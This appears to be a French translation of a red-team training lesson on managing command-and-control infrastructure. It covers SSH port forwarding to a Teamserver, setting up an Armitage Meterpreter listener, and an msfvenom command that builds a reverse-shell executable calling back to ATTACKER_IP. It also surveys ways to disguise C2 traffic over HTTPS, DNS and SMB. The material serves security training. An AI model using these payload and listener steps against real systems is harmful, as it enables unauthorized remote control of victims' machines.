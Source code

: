 ### Accéder et gérer votre infrastructure C2

Maintenant que nous avons une idée générale de la configuration d'un serveur C2 , nous allons passer en revue certains détails opérationnels de base que vous devez connaître lorsque vous accédez à votre serveur C2. Il est important de noter que vous n'êtes pas obligé d'effectuer des actions dans cette tâche - Ceci est destiné à acquérir une expérience générale et une familiarité avec les cadres de commandement et de contrôle.

Sécurité opérationnelle de base

Nous en avons brièvement parlé dans la dernière section ; Vous ne devez jamais avoir votre interface de gestion C2 directement accessible. C'est principalement pour vous d'améliorer la sécurité opérationnelle. Il peut être incroyablement facile d'identifier les serveurs C2. Par exemple, dans les versions antérieures à 3.13, les serveurs Cobalt Strike C2 pouvaient être identifiés par un espace supplémentaire (\x20) à la fin de la réponse HTTP. En utilisant cette tactique, de nombreux Blue Teamers pourraient prendre les empreintes digitales de tous les serveurs Cobalt Strike C2 accessibles au public. Pour plus d'informations sur la prise d'empreintes digitales et l'identification des serveurs Cobalt Strike C2, consultez cet article publié sur le [blog Recorded Future](https://www.recordedfuture.com/cobalt-strike-servers/) .

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d5a2b006986bf3508047664/room-content/e81ca61b06e861e6f3a4f58660cc2e76.png)

*Capture d'écran d'un éditeur hexadécimal illustrant l'espace supplémentaire à la fin d'une réponse HTTP*

Le point en mentionnant cela est que vous voulez réduire autant que possible votre risque de sécurité opérationnelle. Si cela signifie que l'interface de gestion de votre serveur C2 n'est pas accessible au public, alors, par tous les moyens, vous devriez le faire.

Accéder à votre serveur C2 distant qui écoute localement

Cette section se concentrera sur la façon d'accéder en toute sécurité à votre serveur C2 par redirection de port SSH ; Si vous avez déjà effectué une redirection de port avec SSH, n'hésitez pas à ignorer cette section, vous n'apprendrez peut-être rien de nouveau. Pour ceux qui ne sont pas familiers, le transfert de port SSH nous permet soit d'héberger des ressources sur une machine distante en transférant un port local vers le serveur distant, soit d'accéder à des ressources locales sur la machine distante à laquelle nous nous connectons. Dans certaines circonstances, cela peut être pour contourner les pare-feu.

![bc96eabae5235e893e22417d2cc2301f](https://github.com/dsgsec/Red-Team/assets/82456829/e9e0534d-c0c2-45e9-8bbd-10ee4ced56d7)

*Le pare-feu bloque TCP/8080*

*\
*

Ou, dans notre cas, cela pourrait être fait pour des raisons de sécurité opérationnelle.

*\
*

*
![7edda600836d41987311316908354439](https://github.com/dsgsec/Red-Team/assets/82456829/4b5e9161-2921-43c8-8647-163fc809339a)

*Le pare-feu autorise TCP/22, nous permettant d'accéder à TCP/8080 via TCP/22*

Maintenant que nous comprenons mieux pourquoi nous voulons transférer le port SSH, passons en revue le comment.

Dans notre configuration C2 à partir de la tâche 4, notre Teamserver écoute sur localhost sur TCP/55553. Afin d'accéder au port distant 55553, nous devons configurer un transfert de port local pour transférer notre port local vers le serveur Teamserver distant. Nous pouvons le faire avec le drapeau -L sur notre client SSH :

Transfert de port SSH

```
root@kali$ ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
root@kali$ echo "Connected"
Connected
```

Maintenant que nous avons configuré un transfert de port distant SSH, vous pouvez maintenant vous connecter à votre serveur C2 fonctionnant sur TCP/55553. Pour rappel, Armitage ne prend pas en charge l'écoute sur une interface de bouclage (127.0.0.1-127.255.255.255), il s'agit donc d'un  conseil général de l'administrateur du serveur C2 . Vous trouverez ce conseil plus centré sur les serveurs C2 comme Covenant, Empire et bien d'autres. 

Nous vous recommandons vivement de mettre en place des règles de pare-feu pour les serveurs C2 qui doivent écouter sur une interface publique  afin que seuls les utilisateurs prévus puissent accéder à votre serveur C2 . Il ya différentes manière de faire ceci. Si vous hébergez une infrastructure Cloud, vous pouvez configurer un groupe de sécurité ou utiliser une solution de pare-feu basée sur l'hôte comme UFW ou IPTables.

Créer un écouteur dans Armitage

Ensuite, nous allons passer à un sujet que tous les serveurs C2 ont - c'est la création d'un écouteur. Pour rester dans le sujet, nous montrerons comment configurer un écouteur de base avec Armitage, puis explorerons certains des autres Listeners théoriques que vous pouvez rencontrer dans divers autres cadres C2. Créons un écouteur Meterpreter de base fonctionnant sur TCP/31337. Pour commencer, cliquez sur le menu déroulant Armitage et accédez à la section "Listeners" ; vous devriez voir trois options, Bind, Reverse et set LHOST. Bind fait référence à Bind Shells ; vous devez vous connecter à ces hôtes. Reverse fait référence aux coques inversées standard ; c'est l'option que nous allons utiliser.

![1ad92c6b503433e43a906c0d6719f137](https://github.com/dsgsec/Red-Team/assets/82456829/98c19b0c-3d6f-4e19-bb64-483ea939781d)

*Créer un écouteur dans Armitage*

Après avoir cliqué sur "Inverser", un nouveau menu s'ouvrira, vous invitant à configurer quelques détails de base sur l'écouteur, en particulier le port sur lequel vous souhaitez écouter et le type d'écouteur que vous souhaitez sélectionner. Vous avez le choix entre deux options, "Shell" ou "Meterpreter". Shell fait référence à un shell inversé standard de style netcat, et Meterpreter est le shell inversé standard de Meterpreter.

![f1799890a05592fcc5338efd4edf281b](https://github.com/dsgsec/Red-Team/assets/82456829/f29a62c6-3e1d-4dbb-a8ee-e0b118c0f908)

*Configuration de l'écouteur*

Après avoir appuyé sur Entrée, un nouveau volet s'ouvrira, confirmant que votre écouteur a été créé. Cela devrait ressembler au module exploit/multi/handler standard de Metasploit.

![7bc806ea13495e55eb82fc5c399d8876](https://github.com/dsgsec/Red-Team/assets/82456829/682a36d7-5417-49d6-bb60-2b2b7cff15ab)

*Écouteur configuré avec succès*

Après avoir configuré un écouteur, vous pouvez générer un shell inversé standard windows/meterpreter/reverse_tcp à l'aide de MSFvenom et définir le LHOST sur le serveur Armitage pour recevoir des rappels vers notre serveur Armitage.

Obtenir un rappel

Génération de charge utile MSFVenom

```
root@kali$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ATTACKER_IP LPORT=31337 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe

```

Après avoir généré le windows/meterpreter/reverse_tcp à l'aide de MSFVenom, nous pouvons transférer la charge utile vers une machine cible et l'exécuter. Après un moment ou deux, vous devriez recevoir un rappel de la machine.

![1dcc8962d5a595690a9b5ea9c4888dad](https://github.com/dsgsec/Red-Team/assets/82456829/ea280735-f0f8-4311-90e1-fc00be3590ef)

*Rappel de la victime*

Type d'Listener

Comme mentionné précédemment, les écouteurs de shell inversé standard ne sont pas les seuls qui existent ; il existe de nombreuses variétés qui utilisent de nombreux protocoles différents ; cependant, il y en a quelques-uns courants que nous couvrirons, ceux-ci étant les suivants :

Listener standard - 

Ceux-ci communiquent souvent directement via un socket TCP ou UDP brut, en envoyant des commandes en texte clair. Metasploit prend entièrement en charge les Listeners génériques.

Listeners HTTP/HTTPS - 

Ceux-ci se présentent souvent comme une sorte de serveur Web et utilisent des techniques telles que les profils Domain Fronting ou Malleable C2 pour masquer un serveur C2. Lorsque vous communiquez spécifiquement via HTTPS, il est moins probable que les communications soient bloquées par un NGFW. Metasploit prend entièrement en charge les écouteurs HTTP/HTTPS.

Listeners DNS -

Les écouteurs DNS sont une technique populaire spécifiquement utilisée dans la phase d'exfiltration où une infrastructure supplémentaire doit normalement être mise en place, ou à tout le moins, un nom de domaine doit être acheté et enregistré, et un serveur NS public doit être configuré. Il est possible de configurer des opérations DNS C2 dans Metasploit à l'aide d'outils supplémentaires. Pour plus d'informations, consultez cette présentation " [Meterpreter over DNS](https://2017.zeronights.org/wp-content/uploads/materials/ZN17_SintsovAndreyanov_MeterpreterReverseDNS.pdf) " par Alexey Sintsov et Maxim Andreyanov. Ceux-ci sont souvent très utiles pour contourner les proxys réseau.

Listeners PME - 

La communication via des canaux nommés SMB est une méthode de choix populaire, en particulier lorsqu'il s'agit d'un réseau restreint ; il permet souvent un pivotement plus flexible avec plusieurs appareils qui communiquent entre eux et un seul appareil qui revient sur un protocole plus courant comme HTTP/HTTPS. Metasploit prend en charge les canaux nommés.
